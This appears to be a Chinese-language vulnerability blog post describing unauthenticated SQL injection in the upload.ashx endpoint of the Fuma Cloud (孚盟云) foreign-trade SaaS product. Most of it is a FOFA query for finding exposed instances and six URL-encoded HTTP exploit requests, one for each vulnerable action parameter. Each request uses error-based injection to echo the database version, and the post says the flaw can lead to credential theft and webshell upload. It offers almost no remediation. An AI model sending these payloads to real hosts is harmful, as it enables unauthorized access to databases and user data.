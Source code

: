 ## 漏洞简介

上海孚盟软件有限公司是一家专业的外贸SaaS服务和行业解决方案提供商。其旗下产品孚盟云upload.ashx接口存在[SQL注入](https://mrxn.net/tag/SQL%E6%B3%A8%E5%85%A5)漏洞，未经身份验证的远程攻击者除了可以利用[SQL注入漏洞](https://mrxn.net/tag/SQL%E6%B3%A8%E5%85%A5)获取数据库中的信息(例如，管理员后台密码、站点的用户个人信息)之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## 影响版本

## fofa语法

> app="孚盟软件-孚盟云"
## 漏洞复现

## showImgss

```HTTP
GET /Ajax/upload.ashx?action=showImgss&FID=%31%27%20%61%6e%64%20%31%3d%63%6f%6e%76%65%72%74%28%69%6e%74%2c%40%40%76%65%72%73%69%6f%6e%29%2d%2d HTTP/1.1
Host: x.x.x.x
```


![[Pasted image 20250828143107.png]]
成功延时 4 秒

## deletefile

```HTTP
GET /Ajax/upload.ashx?action=deletefile&name=%31%27%20%61%6e%64%20%31%3d%63%6f%6e%76%65%72%74%28%69%6e%74%2c%40%40%76%65%72%73%69%6f%6e%29%2d%2d HTTP/1.1
Host: fumacrm.mrxn.net
X-Forwarded-For: 127.0.0.1
Cookie: poc=SQLI_POC
```

![[Pasted image 20250828143611.png]]

成功利用报错注入在响应回显数据库版本信息

## showSmallImg

```HTTP
GET /Ajax/upload.ashx?action=showSmallImg&id=%31%27%20%61%6e%64%20%31%3d%63%6f%6e%76%65%72%74%28%69%6e%74%2c%40%40%76%65%72%73%69%6f%6e%29%2d%2d&tabpoc=bfContacts&imgField=FID HTTP/1.1
Host: fumacrm.mrxn.net
```

![[Pasted image 20250828143148.png]]

成功利用报错注入在响应回显数据库版本信息

## showProdImg

```HTTP
GET /Ajax/upload.ashx?action=showProdImg&FID=%31%27%20%61%6e%64%20%31%3d%63%6f%6e%76%65%72%74%28%69%6e%74%2c%40%40%76%65%72%73%69%6f%6e%29%2d%2d HTTP/1.1
Host: fumacrm.mrxn.net
```

![[Pasted image 20250828145917.png]]

成功利用报错注入在响应回显数据库版本信息

## **image**

```HTTP
GET /Ajax/upload.ashx?action=image&CardID=%31%27%20%61%6e%64%20%31%3d%63%6f%6e%76%65%72%74%28%69%6e%74%2c%40%40%76%65%72%73%69%6f%6e%29%2d%2d&imagefb=FID HTTP/1.1
Host: fumacrm.mrxn.net
```

![[Pasted image 20250828143230.png]]

成功利用报错注入在响应回显数据库版本信息

## DownLoadFieldAttch

```HTTP
GET /Ajax/upload.ashx?action=DownLoadFieldAttch&trueFileName=%31%27%20%61%6e%64%20%31%3d%63%6f%6e%76%65%72%74%28%69%6e%74%2c%40%40%76%65%72%73%69%6f%6e%29%2d%2d HTTP/1.1
Host: fumacrm.mrxn.net
```
![[Pasted image 20250828143557.png]]

成功利用报错注入在响应回显数据库版本信息